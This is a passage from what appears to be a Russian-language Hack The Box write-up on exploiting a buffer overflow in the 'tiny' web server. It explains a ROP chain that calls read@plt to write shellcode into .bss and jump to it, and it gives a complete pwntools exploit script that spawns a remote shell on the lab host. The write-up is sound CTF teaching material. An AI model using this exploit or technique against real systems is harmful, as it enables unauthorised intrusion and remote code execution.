 ![tiny-vmmap-readelf.png]({{ "/img/htb/boxes/smasher/tiny-vmmap-readelf.png" | relative_url }})

О классификации техник обхода ASLR можно прочесть в публикации ASLR Smack & Laugh Reference, [PDF](https://ece.uwaterloo.ca/~vganesh/TEACHING/S2014/ECE458/aslr.pdf).

Для второго варианта атаки пейлоад примет следующий вид.

```
ПЕЙЛОАД = 
    (1) МУСОР_568_байт +
    (2) СМЕЩЕНИЕ_ДО_ГАДЖЕТА_pop_rdi +
    (3) ЗНАЧЕНИЕ_ДЕСКРИПТОРА_socket_fd +
    (4) СМЕЩЕНИЕ_ДО_ГАДЖЕТА_pop_rsi +
    (5) СМЕЩЕНИЕ_ДО_СЕКЦИИ_bss +
    (6) СМЕЩЕНИЕ_ДО_read@plt
    (7) СМЕЩЕНИЕ_ДО_СЕКЦИИ_bss <== прыжок на шелл-код
```

Пункты 1–5 задают два аргумента для функции `read` — они ложатся в регистры RDI и RSI соответственно. Обрати внимание: мы не задаем явно количество байт для чтения (третий аргумент — регистр RDX), потому что работа с RDX — это боль при построении ропчейнов. Вместо этого полагаемся на удачу: в ходе выполнения RDX обычно хранит достаточно большие значения, чтобы нам хватило на запись шелл-кода.

В пункте 6 вызываем саму функцию `read` (через обращение к таблице PLT), которая запишет шелл-код в секцию `.bss`. Финальный штрих — 7-й пункт — передаст управление шелл-коду: это произойдет после достижения инструкции `ret` в функции `read@plt`.

Необходимые звенья ROP-цепочки можно найти вручную (как мы [делали](https://snovvcrash.github.io/2019/11/23/bitterman.html#rop-цепочки) это в прошлой части), а можно возложить все заботы на плечи pwntools — тогда конечный сплоит получится весьма миниатюрным.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

# Использование: python3 tiny-exploit.py [DEBUG]

from pwn import *
from urllib.parse import quote as url_encode

context.arch      = 'amd64'
context.os        = 'linux'
context.endian    = 'little'
context.word_size = 64

elf = ELF('./tiny', checksec=False)
bss = elf.bss()  # elf.get_section_by_name('.bss')['sh_addr'] (address of section header .bss)

rop = ROP(elf)
rop.read(4, bss)
rop.raw(bss)
log.info(f'ROP:\n{rop.dump()}')

r = remote('10.10.10.89', 1111)

raw_input('[?] Send payload?')
r.sendline(f'GET /{url_encode(b"A"*568 + bytes(rop))}')
r.sendline()
r.recvuntil('File not found')

raw_input('[?] Send shellcode?')
r.sendline(asm(shellcraft.dupsh(4)))  # asm(shellcraft.amd64.linux.dupsh(4), arch='amd64'), 70 bytes

r.interactive()
```


[//]: # (2019-11-20)